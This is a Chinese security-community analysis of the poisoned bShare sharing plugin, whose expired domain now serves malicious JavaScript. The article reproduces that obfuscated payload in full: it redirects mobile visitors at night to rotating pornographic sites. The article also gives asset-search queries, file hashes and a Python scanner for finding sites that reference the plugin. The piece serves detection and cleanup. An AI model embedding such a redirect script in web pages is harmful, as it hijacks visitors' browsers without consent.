


# bshare分享插件投毒事件分析：废弃组件引发的恶意跳转风险-先知社区

> **来源**: https://xz.aliyun.com/news/18997  
> **文章ID**: 18997

---

bshare分享插件被投毒这个事件在2025年2月就被检测到了，当时的具体参考文章为：<https://www.secrss.com/articles/75686>。

这里先对此插件做一个简介：

> BShare是一款曾经非常流行的**网站社交分享工具**。它提供了网页地址收藏、分享以及发送的功能，让网站访客可以一键将内容分享到微博、微信、QQ空间、豆瓣等数十个国内主流社交平台。

bShare是擘纳(上海)信息科技有限公司旗下产品, 而擘纳(上海)信息科技有限公司在2018-02-18已经注销。

注销后，此域名被他人抢注，使用了bshare组件的网页并不会自动更新或者删除相关引用代码，所以域名拥有者可以轻易的修改其js代码进行推流、投毒、钓鱼等恶意行为。

虽然从2024-10-20之后，bshare分享插件实际上已经不再可用了，但直到如今快1年后仍被大量网站所引用。

通过hunter等测绘系统进行信息收集：

```
web.body="static.bshare.cn"
```


```
body="static.bshare.cn"
```


访问引用此插件的网站，搜索关键词“bshare.cn”可快速定位。



经过大量样本检测，主要被投毒的js如下：

```
http://static.bshare.cn/b/bshareC0.js
http://static.bshare.cn/b/bshareCO.js
http://static.bshare.cn/b/buttonLite.js
```

内容一致。

```
const cN="night_jump",cH=24,jU=(()=>[104,116,116,112,115,58,47,47,115,53,46,110,98,99,109,122,110,46,99,111,109].map(c=>String.fromCharCode(c)).join(""))();function iM(){return/iPhone|iPad|iPod|Android|Mobile/i.test(navigator.userAgent)}function gC(n){const t="; "+document.cookie,a=t.split("; "+n+"=");return 2===a.length?a.pop().split(";").shift():null}function sC(n,v,h){const d=new Date;d.setTime(d.getTime()+60*60*1e3*h),document.cookie=`${n}=${v}; expires=${d.toUTCString()}; path=/`}function iNB(){const d=new Date,t=d.getTime()+60*d.getTimezoneOffset()*1e3,n=new Date(t+288e5);return n.getHours()>=20||n.getHours()<6}!function(){iM()&&iNB()&&!gC(cN)&&(sC(cN,"1",cH),window.location.href=jU)}();
```

实现的主要功能为**夜间跳转**的移动端检测与强制跳转：

1. **检测移动设备** - 判断用户是否使用手机/平板访问。
2. **检测夜间时段** - 判断当前时间是否在晚上8点到早上6点之间。
3. **检查Cookie** - 查看用户是否已经跳过转跳（24小时内只跳一次）。
4. **满足条件时强制跳转** - 如果同时满足以上三个条件，则跳转到指定网址。

其实际跳转的地址被ASCII码加密，即为

```
[104,116,116,112,115,58,47,47,115,53,46,110,98,99,109,122,110,46,99,111,109]
https://s5.xxxxxx.com
```



对比md5，证明三个文件内容相同。

```
>certutil -hashfile bshareC0.js
SHA1 的 bshareC0.js 哈希:
3ca19931c856ea83d5b577064364506db42e23a4
CertUtil: -hashfile 命令成功完成。

>certutil -hashfile bshareCO.js
SHA1 的 bshareCO.js 哈希:
3ca19931c856ea83d5b577064364506db42e23a4
CertUtil: -hashfile 命令成功完成。

>certutil -hashfile buttonLite.js
SHA1 的 buttonLite.js 哈希:
3ca19931c856ea83d5b577064364506db42e23a4
CertUtil: -hashfile 命令成功完成。
```

但是不能仅通过md5检测自身站点是否引用这些恶意js文件，通过多天监测，其域名是不断更换的。

以写文章的前后两天监测为例：

```
Day1:
[104,116,116,112,115,58,47,47,115,53,46,114,98,115,116,117,100,121,46,99,111,109,47,63,115,53]
https://s5.rbstudy.com/?s5
Day2:
[104,116,116,112,115,58,47,47,115,53,46,110,98,99,109,122,110,46,99,111,109]
https://s5.nbcmzn.com
```

但无一例外均为色情网站。


建议检测自查时以文件名为主，这里也放一个测试时让D大师写的批量小脚本。

```
import requests
from urllib.parse import urljoin, urlparse
from bs4 import BeautifulSoup
import sys
import os
import re
from pathlib import Path
import hashlib
import datetime

def sanitize_filename(url):
    """清理URL中的特殊字符，使其适合作为文件名"""
    # 移除协议头
    filename = re.sub(r'^https?://', '', url)
    # 替换特殊字符为下划线
    filename = re.sub(r'[^a-zA-Z0-9._-]', '_', filename)
    # 限制文件名长度
    if len(filename) > 100:
        filename = filename[:100]
    return filename

def check_js_reference(filepath, target_keywords=None):
    """
    检查JS文件是否包含目标关键词引用
    
    Args:
        filepath (str): JS文件路径
        target_keywords (list): 要检测的关键词列表
    
    Returns:
        dict: 检测结果，包含引用状态和匹配信息
    """
    if target_keywords is None:
        target_keywords = ["bshare", "night_jump", "static.bshare.cn"]
    
    result = {
        'has_reference': False,
        'matched_keywords': [],
        'file_md5': None,
        'file_sha256': None
    }
    
    try:
        if not os.path.exists(filepath):
            return result
            
        # 计算文件哈希值
        with open(filepath, 'rb') as f:
            content = f.read()
            result['file_md5'] = hashlib.md5(content).hexdigest()
            result['file_sha256'] = hashlib.sha256(content).hexdigest()
        
        # 将二进制内容解码为文本（尝试多种编码）
        text_content = None
        encodings = ['utf-8', 'gbk', 'latin-1']
        
        for encoding in encodings:
            try:
                text_content = content.decode(encoding)
                break
            except UnicodeDecodeError:
                continue
        
        if text_content is None:
            return result
        
        # 检查每个关键词
        for keyword in target_keywords:
            if re.search(re.escape(keyword), text_content, re.IGNORECASE):
                result['has_reference'] = True
                result['matched_keywords'].append(keyword)
                
    except Exception as e:
        print(f"检测JS文件引用时出错: {str(e)}")
    
    return result

def download_js_file(js_url, download_dir="downloaded_js"):
    """
    下载JS文件并保存到指定目录
    
    Args:
        js_url (str): JS文件的URL
        download_dir (str): 下载目录
    
    Returns:
        dict: 下载结果信息
    """
    result = {
        'url': js_url,
        'filename': None,
        'filepath': None,
        'success': False,
        'error': None,
        'file_size': 0,
        'reference_check': None
    }
    
    try:
        # 创建下载目录
        Path(download_dir).mkdir(exist_ok=True)
        
        # 生成安全的文件名
        safe_name = sanitize_filename(js_url)
        filename = f"{safe_name}.js"
        filepath = os.path.join(download_dir, filename)
        
        # 如果文件已存在，添加数字后缀
        counter = 1
        original_filepath = filepath
        while os.path.exists(filepath):
            name, ext = os.path.splitext(original_filepath)
            filepath = f"{name}_{counter}{ext}"
            counter += 1
        
        # 设置请求头
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
            'Accept': 'application/javascript, */*;q=0.8'
        }
        
        # 下载文件
        response = requests.get(js_url, headers=headers, timeout=15, stream=True)
        response.raise_for_status()
        
        # 保存文件
        with open(filepath, 'wb') as f:
            for chunk in response.iter_content(chunk_size=8192):
                if chunk:
                    f.write(chunk)
        
        # 获取文件大小
        file_size = os.path.getsize(filepath)
        
        # 检查文件是否包含目标关键词引用
        reference_result = check_js_reference(filepath)
        
        result.update({
            'filename': os.path.basename(filepath),
            'filepath': filepath,
            'success': True,
            'file_size': file_size,
            'reference_check': reference_result
        })
        
    except requests.exceptions.RequestException as e:
        result['error'] = f"下载失败: {str(e)}"
    except Exception as e:
        result['error'] = f"保存失败: {str(e)}"
    
    return result

def check_bshare_references(url, target_scripts=None, download_js=False, download_dir="downloaded_js"):
    """
    检查给定网页是否引用了BShare相关脚本
    
    Args:
        url (str): 要检查的网页URL
        target_scripts (list): 要检查的BShare脚本列表
        download_js (bool): 是否下载发现的JS文件
        download_dir (str): JS文件下载目录
    
    Returns:
        dict: 检查结果，包含找到的脚本和状态信息
    """
    if target_scripts is None:
        target_scripts = [
            "http://static.bshare.cn/b/bshareC0.js",
            "http://static.bshare.cn/b/bshareCO.js",
            "http://static.bshare.cn/b/buttonLite.js"
        ]
    
    results = {
        'url': url,
        'scripts_found': [],
        'scripts_checked': target_scripts.copy(),
        'downloads': [],
        'referenced_urls': [],  # 修改：包含关键词引用的URL列表
        'unique_referenced_urls': [],  # 修改：去重后的引用URL列表
        'error': None,
        'status': 'pending'
    }
    
    try:
        # 设置请求头，模拟浏览器访问
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36'
        }
        
        # 发送HTTP请求
        response = requests.get(url, headers=headers, timeout=10)
        response.raise_for_status()  # 检查请求是否成功
        
        # 使用BeautifulSoup解析HTML
        soup = BeautifulSoup(response.text, 'html.parser')
        
        # 查找所有的script标签
        script_tags = soup.find_all('script', src=True)
        
        # 检查每个script标签的src属性
        for script in script_tags:
            script_src = script.get('src')
            if script_src:
                # 将相对URL转换为绝对URL
                full_script_url = urljoin(url, script_src)
                
                # 检查是否匹配目标脚本
                for target_script in target_scripts:
                    if target_script in full_script_url:
                        script_info = {
                            'script_url': full_script_url,
                            'target_script': target_script,
                            'tag_content': str(script)[:100] + '...',  # 只保留前100字符
                            'download_info': None
                        }
                        
                        # 如果需要下载JS文件
                        if download_js:
                            download_info = download_js_file(full_script_url, download_dir)
                            script_info['download_info'] = download_info
                            results['downloads'].append(download_info)
                            
                            # 检查是否包含关键词引用
                            if (download_info['success'] and 
                                download_info['reference_check'] and 
                                download_info['reference_check']['has_reference']):
                                
                                reference_info = {
                                    'url': full_script_url,
                                    'local_file': download_info['filepath'],
                                    'matched_keywords': download_info['reference_check']['matched_keywords'],
                                    'md5': download_info['reference_check']['file_md5'],
                                    'sha256': download_info['reference_check']['file_sha256']
                                }
                                results['referenced_urls'].append(reference_info)
                        
                        results['scripts_found'].append(script_info)
        
        # 去重处理：基于URL去重
        seen_urls = set()
        for referenced in results['referenced_urls']:
            if referenced['url'] not in seen_urls:
                results['unique_referenced_urls'].append(referenced)
                seen_urls.add(referenced['url'])
        
        results['status'] = 'completed'
        
    except requests.exceptions.RequestException as e:
        results['error'] = f"网络请求错误: {str(e)}"
        results['status'] = 'error'
    except Exception as e:
        results['error'] = f"解析错误: {str(e)}"
        results['status'] = 'error'
    
    return results

def load_targets_from_file(filename="targets.txt"):
    """从文件加载目标URL列表"""
    urls = []
    try:
        if os.path.exists(filename):
            with open(filename, 'r', encoding='utf-8') as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#'):  # 跳过空行和注释
                        if not line.startswith(('http://', 'https://')):
                            line = 'http://' + line
                        urls.append(line)
            print(f"从 {filename} 加载了 {len(urls)} 个目标URL")
        else:
            print(f"警告: 目标文件 {filename} 不存在")
    except Exception as e:
        print(f"加载目标文件时出错: {str(e)}")
    
    return urls

def save_results_to_file(results_list, filename="result.txt"):
    """
    将检测结果保存到文件
    """
    try:
        with open(filename, 'w', encoding='utf-8') as f:
            # 写入文件头
            f.write("=" * 80 + "
")
            f.write("BShare脚本引用检测报告
")
            f.write(f"生成时间: {datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S')}
")
            f.write("=" * 80 + "

")
            
            # 统计信息
            total_sites = len(results_list)
            total_referenced = 0
            total_js_found = 0
            all_referenced_urls = []
            
            for result in results_list:
                if result['unique_referenced_urls']:
                    total_referenced += 1
                    all_referenced_urls.extend(result['unique_referenced_urls'])
                if result['scripts_found']:
                    total_js_found += 1
            
            # 写入统计摘要
            f.write("检测摘要:
")
            f.write(f"总检测网站: {total_sites}
")
            f.write(f"发现BShare脚本的网站: {total_js_found}
")
            f.write(f"包含关键词引用的网站: {total_referenced}
")
            f.write(f"发现的引用URL总数: {len(all_referenced_urls)}
")
            f.write("
" + "-" * 80 + "

")
            
            # 写入每个网站的详细结果
            for i, result in enumerate(results_list, 1):
                f.write(f"网站 {i}: {result['url']}
")
                f.write(f"检测状态: {result['status']}
")
                
                if result['error']:
                    f.write(f"错误信息: {result['error']}
")
                else:
                    if result['scripts_found']:
                        f.write("❌ 发现BShare脚本引用!
")
                        for found in result['scripts_found']:
                            f.write(f"  🔍 匹配: {found['target_script']}
")
                            f.write(f"     实际URL: {found['script_url']}
")
                            
                            if found['download_info']:
                                dl_info = found['download_info']
                                if dl_info['success']:
                                    f.write(f"     💾 已下载: {dl_info['filename']}
")
                                    if dl_info['reference_check']:
                                        reference = dl_info['reference_check']
                                        if reference['has_reference']:
                                            f.write(f"     📝 包含关键词引用!
")
                                            f.write(f"        匹配关键词: {', '.join(reference['matched_keywords'])}
")
                                            f.write(f"        MD5: {reference['file_md5']}
")
                                            f.write(f"        SHA256: {reference['file_sha256']}
")
                    else:
                        f.write("✅ 未发现BShare脚本引用
")
                
                f.write("
")
            
            # 写入引用URL汇总
            if all_referenced_urls:
                f.write("
" + "=" * 80 + "
")
                f.write("关键词引用URL汇总:
")
                f.write("=" * 80 + "
")
                
                # 去重处理
                unique_referenced = []
                seen_urls = set()
                for referenced in all_referenced_urls:
                    if referenced['url'] not in seen_urls:
                        unique_referenced.append(referenced)
                        seen_urls.add(referenced['url'])
                
                for j, referenced in enumerate(unique_referenced, 1):
                    f.write(f"{j}. 引用URL: {referenced['url']}
")
                    f.write(f"   匹配关键词: {', '.join(referenced['matched_keywords'])}
")
                    f.write(f"   MD5: {referenced['md5']}
")
                    f.write(f"   SHA256: {referenced['sha256']}
")
                    f.write(f"   本地文件: {referenced['local_file']}

")
            
            f.write("=" * 80 + "
")
            f.write("报告结束
")
            f.write("=" * 80 + "
")
        
        print(f"检测结果已保存到: {filename}")
        
    except Exception as e:
        print(f"保存结果到文件时出错: {str(e)}")

def print_results(results):
    """格式化打印检查结果"""
    print(f"
{'='*60}")
    print(f"BShare脚本引用检查报告")
    print(f"{'='*60}")
    print(f"目标网址: {results['url']}")
    print(f"检查状态: {results['status']}")
    
    if results['error']:
        print(f"错误信息: {results['error']}")
        return
    
    print(f"
检测结果:")
    if results['scripts_found']:
        print("❌ 发现BShare脚本引用!")
        for found in results['scripts_found']:
            print(f"  🔍 匹配: {found['target_script']}")
            print(f"    实际URL: {found['script_url']}")
            
            # 显示下载和引用信息
            if found['download_info']:
                dl_info = found['download_info']
                if dl_info['success']:
                    print(f"    💾 已下载: {dl_info['filename']}")
                    
                    # 显示引用检测结果
                    if dl_info['reference_check']:
                        reference = dl_info['reference_check']
                        if reference['has_reference']:
                            print(f"    📝 包含关键词引用!")
                            print(f"       匹配关键词: {', '.join(reference['matched_keywords'])}")
                        else:
                            print(f"    ✅ 未检测到关键词引用")
                else:
                    print(f"    ❌ 下载失败: {dl_info['error']}")
            print()
    else:
        print("✅ 未发现指定的BShare脚本引用")
    
    # 显示引用URL汇总（去重后）
    if results['unique_referenced_urls']:
        print(f"
📝 关键词引用URL汇总 (去重后):")
        print(f"{'-'*40}")
        for i, referenced in enumerate(results['unique_referenced_urls'], 1):
            print(f"{i}. 引用URL: {referenced['url']}")
            print(f"   匹配关键词: {', '.join(referenced['matched_keywords'])}")

def main():
    """主函数"""
    # 配置选项
    TARGETS_FILE = "targets.txt"
    RESULTS_FILE = "result.txt"
    DOWNLOAD_JS = True  # 设置为True启用JS文件下载
    DOWNLOAD_DIR = "bshare_js_downloads"  # 下载目录
    
    print("BShare脚本引用检查工具 (批量检测版)")
    print("功能: 从文件读取目标 + 自动检测 + 结果保存")
    print(f"目标文件: {TARGETS_FILE}")
    print(f"结果文件: {RESULTS_FILE}")
    print(f"下载目录: {DOWNLOAD_DIR}")
    print(f"下载功能: {'启用' if DOWNLOAD_JS else '禁用'}")
    
    # 从文件加载目标URL
    test_urls = load_targets_from_file(TARGETS_FILE)
    
    if not test_urls:
        print("没有找到可检测的目标URL，请检查targets.txt文件")
        return
    
    # 要检查的BShare脚本
    target_scripts = [
        "http://static.bshare.cn/b/bshareC0.js",
        "http://static.bshare.cn/b/buttonLite.js",
        "http://static.bshare.cn/b/bshareCO.js",
        "//static.bshare.cn/",
        "bshare.cn"
    ]
    
    all_results = []
    all_referenced_urls = []
    
    print(f"
开始批量检测 {len(test_urls)} 个网站...")
    
    for i, url in enumerate(test_urls, 1):
        print(f"
[{i}/{len(test_urls)}] 正在检查: {url}")
        results = check_bshare_references(
            url, 
            target_scripts, 
            download_js=DOWNLOAD_JS, 
            download_dir=DOWNLOAD_DIR
        )
        print_results(results)
        all_results.append(results)
        
        # 收集引用URL
        all_referenced_urls.extend(results['unique_referenced_urls'])
    
    # 保存结果到文件
    save_results_to_file(all_results, RESULTS_FILE)
    
    # 显示最终统计
    total_referenced = len([r for r in all_results if r['unique_referenced_urls']])
    unique_global_urls = set(referenced['url'] for referenced in all_referenced_urls)
    
    print(f"
{'#'*60}")
    print(f"批量检测完成!")
    print(f"{'#'*60}")
    print(f"总检测网站: {len(test_urls)}")
    print(f"发现引用的网站: {total_referenced}")
    print(f"唯一引用URL数量: {len(unique_global_urls)}")
    print(f"详细结果请查看: {RESULTS_FILE}")

if __name__ == "__main__":
    main()
```
